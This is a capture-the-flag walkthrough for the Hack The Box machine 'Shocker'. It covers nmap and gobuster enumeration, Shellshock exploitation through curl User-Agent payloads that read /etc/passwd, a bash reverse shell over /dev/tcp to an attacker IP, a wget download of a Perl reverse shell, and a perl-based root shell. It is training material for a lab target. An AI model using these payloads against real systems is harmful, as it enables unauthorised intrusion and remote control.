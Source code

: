 # Shocker Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA shocker 10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357310-160d9812-0522-4479-9126-c9dfb936d848.png)

``nmap --script vuln 10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357364-2f1a6ef5-cb76-45aa-9dbe-1aa2565ce426.png)

``nikto -host http://10.10.10.56``

![image](https://user-images.githubusercontent.com/123066149/226357618-4e8827c0-36ac-4262-8d96-6f39bb768a17.png)

# ${{\color{purple}Initial Foothold}}\ $

``dirb http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/CGIs.txt -t 50``

![image](https://user-images.githubusercontent.com/123066149/226358323-1477f05a-58f6-4cb4-a09b-0f501c1fab3c.png)

``gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -x cgi,php,html``

![image](https://user-images.githubusercontent.com/123066149/226358774-9ff94040-b230-4b9f-80cd-4192b8cadbb0.png)

``gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x sh``

![image](https://user-images.githubusercontent.com/123066149/226358987-9f981b40-2e78-425f-b55c-8e6cc4501907.png)

# ${{\color{purple}Exploitation}}\ $

https://www.sevenlayers.com/index.php/125-exploiting-shellshock

``curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226359725-99a8e315-f5cd-4c97-a665-d35ee18b483c.png)

``curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/cat /etc/passwd" http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226359889-1dfca83c-36ec-414c-8a28-9d8e413639c8.png)

``curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.16.3/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh``

![image](https://user-images.githubusercontent.com/123066149/226360049-1b28e5c0-6da6-45b4-b402-8f3cd40f2f6a.png)

``tcpdump -i tun0 icmp``

![image](https://user-images.githubusercontent.com/123066149/226360977-54c45416-dd99-4277-a907-282565f43809.png)

``() { :; }; /bin/bash -i >& /dev/tcp/10.10.16.3/8888 0>&1``

![image](https://user-images.githubusercontent.com/123066149/226362205-e35b0eb5-850a-43c9-8981-381bd14795b5.png)


# ${{\color{purple}Privilege Escalation}}\ $

``sudo -l``

![image](https://user-images.githubusercontent.com/123066149/226363790-6c615050-105d-452c-99fd-d788831cab73.png)

``wget http://10.10.16.3:80/perl_pentest_monkey.pl && chmod +x perl_pentest_monkey.pl``

![image](https://user-images.githubusercontent.com/123066149/226364007-ae3f7cf5-6268-44e3-8ee2-49e646b769cd.png)

![image](https://user-images.githubusercontent.com/123066149/226364266-decade33-b8d1-4b2a-a900-04efe2f7cd1e.png)

![image](https://user-images.githubusercontent.com/123066149/226364474-3b850292-695e-42c4-a7db-0081e34dc9bf.png)

# ${{\color{purple}Point of Improvement}}\ $

* Don't hesitate to use several extensions during the recon phase ``-x sh,pl``
* nmap is possible for the discovery part : ``nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56``
* An alternative to the privilege escalation ``perl -e 'exec("/bin/bash")'``
